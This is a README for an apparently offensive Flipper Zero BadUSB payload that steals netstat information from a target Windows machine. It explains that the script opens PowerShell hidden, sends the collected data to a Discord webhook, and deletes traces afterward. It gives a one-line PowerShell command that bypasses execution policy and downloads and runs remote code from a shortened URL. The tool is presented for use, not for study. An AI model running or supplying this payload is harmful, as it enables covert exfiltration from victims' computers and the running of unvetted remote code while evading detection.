 # Windows netstat - BadUSB ✅

A script used to stole target netstat status.


**Category**: Net, Exfiltration

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

This script will stole target netstat status.

Opens PowerShell hidden, grabs netstat status, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke the indicated commands 
* Invoke-WebRequest will be entered in the Run Box to send the content

### Settings
Put 1 on the function that you want to active, else 0.
Functions available:
- default (*or simple 'netstat' command*)
- routing_table **$r**
- listening_canonical **$lc**
- listening_numerical **$ln**
- all_canonical **$ac**
- all_numerical **$an**
- offload **ot**
- proto **$p "\<protocol>"**
    - *In this option you must put the protocol that you want to monitor, for example $proto="TCP" if you want to monitor TCP, else leave blank, so $proto="".*

```powershell
powershell -w h -ep bypass $discord='';$d='1';$r='1';$lc='1';$ln='1';$ac='1';$an='1';$o='1';$p='TCP';irm bit.ly/WindowsNetstatScript1 | iex
```

You must put your Discord webhook into the variable $discord='\<your-webhook-here>'
